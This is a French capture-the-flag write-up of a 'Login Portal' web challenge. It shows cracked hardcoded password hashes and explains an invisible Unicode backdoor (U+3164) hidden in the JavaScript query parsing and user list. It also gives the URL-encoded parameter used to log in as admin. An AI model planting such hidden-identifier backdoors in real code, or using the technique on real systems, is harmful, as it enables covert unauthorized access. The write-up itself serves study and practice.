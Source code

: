 ### WEB / Login Portal

<p align="center">
  <img src="img/consignes.png" />
</p>

### Tour du site

Le site comprends deux pages, l'une pour s'authentifier, l'autre nous affiche le code source du site...

<p align="center">
  <img src="img/cap1.png" />
</p>

<p align="center">
  <img src="img/cap2.png" />
</p>


Notre attention est vite attirée par le mécanisme implémenté pour l'authentification, et les hash de mots de passe codés en dur (never do that !)

Un tour sur crackstation pour récupérer :
- alice:alice
- bob:bob

Reste celui de l'admin ....


### Etude du code

Un détail peu rapidement sauter aux yeux ... quelques virgules supplémentaires qui :
1 - rendent le code moche
2 - devrait faire sonner tout bon interpréteur

```javascript
const { username, password,ㅤ} = req.query;
...
const validUsers = [
    'admin:W7tgTzWTFBDedWf+OhrrqfLgYAh7blYh0RuhakKLKqQ=',
    'alice:K9gGyX8OAK8aH8Myj6djqSaXI8jbj6xPk69x2xhtbpA=',
    'bob:WsOfjLfA9phADg4FnzcUrtKOXc4hByHUsBpX02PvrSM=',ㅤ
];

```

Ceci dit, je ne connais pas javascript, donc il m'a fallut quelques recherches Google pour en trouver l'explication :


https://certitude.consulting/blog/en/invisible-backdoor/


Ainsi il semble qu'un caractère invisible a été inséré dans les paramètres de requête attendus et dans la liste des utilisateurs, ce qui donne :


```javascript
const { username, password, BACKDOORㅤ} = req.query;
...
const validUsers = [
    'admin:W7tgTzWTFBDedWf+OhrrqfLgYAh7blYh0RuhakKLKqQ=',
    'alice:K9gGyX8OAK8aH8Myj6djqSaXI8jbj6xPk69x2xhtbpA=',
    'bob:WsOfjLfA9phADg4FnzcUrtKOXc4hByHUsBpX02PvrSM=',
    BACKDOORㅤ
];

```


Nous pouvons alors "composer" un nouvel utilisateur, ou plutôt un autre mot de passe pour l'admin :

`admin:K9gGyX8OAK8aH8Myj6djqSaXI8jbj6xPk69x2xhtbpA=` --> `admin:alice`

Puis l'utiliser pour nous connecter.

Pour cela, en transcodant le caractère invisible `\u3164` en héxa `%E3%85%A4`

<p align="center">
  <img src="img/cap3.png" />
</p>
